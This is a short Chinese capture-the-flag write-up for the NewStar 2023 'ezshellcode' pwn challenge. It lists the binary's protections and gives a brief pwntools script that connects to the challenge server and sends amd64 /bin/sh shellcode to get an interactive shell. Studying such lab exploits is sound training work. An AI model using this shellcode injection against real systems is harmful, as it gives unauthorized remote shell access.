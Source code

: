 ```yaml
---
title: newstar2023 week1 - ezshellcode
date: 2023/9/25 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过发送64位sh的shellcode到`ezshellcode`程序即可获得shell。
---
```


## 文件分析

下载`ezshellcode`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

输入一段shellcode就会直接运行了，发一段64位sh的shellcode即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27766)
shc = asm(shellcraft.amd64.linux.sh(), arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.

